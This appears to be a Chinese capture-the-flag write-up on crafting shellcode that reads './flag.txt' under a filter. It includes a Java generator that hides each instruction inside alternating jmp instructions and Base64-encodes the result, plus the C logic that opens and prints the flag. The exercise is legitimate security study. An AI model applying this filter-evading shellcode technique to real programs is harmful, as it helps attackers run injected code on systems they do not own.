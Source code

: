 试过了好多方案，试了调用中断让系统执行命令行，试了int 0x80调用系统功能，结果都不行

https://blog.csdn.net/zmhDD/article/details/109125102

[(51条消息) linux汇编读取文件操作系统,【Linux x86汇编踩坑】文件读写（一）读取文件并输出..._weixin_39526706的博客-CSDN博客](https://blog.csdn.net/weixin_39526706/article/details/116882640)

~~后来才知道是因为调用系统功能的话得调用64位，也就是用syscall调用才行。~~然后开始试着写代码用fopen、fread、printf来弄，因为load.c里正好本来就有这些函数。结果这个函数转成汇编后，直接在load.c里写好了再编译运行是没问题，但用编好的load来输入运行就报段错误，定位问题在call这些函数时。试过通过栈帧把返回地址也就是原始rip找出来然后计算偏移量来间接寻址调这些函数，还是不行。

一筹莫展时，偶然发现系统调用该用64位，一切都解决了。

转成全jmp的代码的话，就用真伪jmp交替就行。真jmp跳到下一条伪jmp中的真指令，这个指令执行完了下一句就是下一个真jmp了，如此循环。指令不够长的部分随便填充掉，只要真指令顶着下一个真jmp之前放，然后上一个真jmp写好跳转到的位置，就可以了。以下是生成这些伪jmp的代码

```java
public static void main(String[] args) throws IOException {
    FileOutputStream fo = new FileOutputStream("D:\\a.bin");
    String code = "48 31 c0      \r\n" + 
        "b8 10 02 00 00\r\n" + 
        "48 29 c4      ";  // 一个例子
    String num[] = code.split("\r\n");
    byte[] buf = new byte[num.length*10];
    for (int i = 0; i < num.length; i++) {
        num[i] = num[i].replaceAll("\\s*", "");
        int pad = 0;
        while (num[i].length() < 10) {
            pad++;
            num[i] = "00" + num[i];
        }
        num[i] = "eb0" + (3 + pad) + "67ffa4" + num[i];
        for (int j = 0; j < 10 && j*2 < num[i].length(); j++) {
            int kk = Integer.parseInt(num[i].substring(j*2, j*2+2), 16);
            buf[i*10+j] = (byte) kk;
        }
    }
    String enc = Base64.getEncoder().encodeToString(buf);
    System.out.println(enc);
    fo.write(buf);
}
```

其中有个小难点是字符串"./flag.txt"放哪，因为有点长，没法藏在jmp里面了。于是只能通过立即数存储到内存中。说到立即数，得吐槽一句为了把指令都藏在jmp里，好多看起来很简单的指令都得改，包括所有的变址寻址，甚至对64位寄存器赋值立即数，也得拆成好几条语句来写，搞了我好久。。。

汇编代码的话因为一开始我是尝试用fopen那些的，所以用那个开始写的，后来改了syscall了懒得重写，就接着写了，所以代码写的很乱。。。这是原始C代码

```C
char c[] = {'%','s','\0', 'r','w','\0',
      '/','f','l','a','g','.','t','x','t','\0'};
char buf[512];
FILE *f = fopen(c+6, c+3);
fread(buf, 1, 512, f);
printf(c, buf);
```
